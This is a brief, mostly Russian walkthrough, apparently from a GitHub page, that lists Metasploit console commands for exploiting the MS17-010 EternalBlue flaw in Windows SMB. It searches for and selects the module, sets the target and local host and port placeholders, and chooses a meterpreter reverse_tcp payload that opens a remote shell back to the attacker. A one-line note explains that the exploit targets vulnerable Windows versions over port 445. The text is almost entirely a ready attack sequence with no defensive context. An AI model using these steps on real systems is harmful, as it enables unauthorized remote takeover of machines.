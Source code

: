 ```
msfconsole
```

```
search ms17_010
```

```
exploit/windows/smb/ms17_010_eternalblue
```

Установите параметры:
```
set RHOST <$REMOTE_IP>
set LHOST <$LOCAL_IP>
set LPORT <$LOCAL_PORT>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

```
exploit
```

> Представляет собой код для удаленной эксплуатации подверженных этой уязвимости версий Microsoft Windows, действует в отношении сервиса SMB, который как правило использует порт 445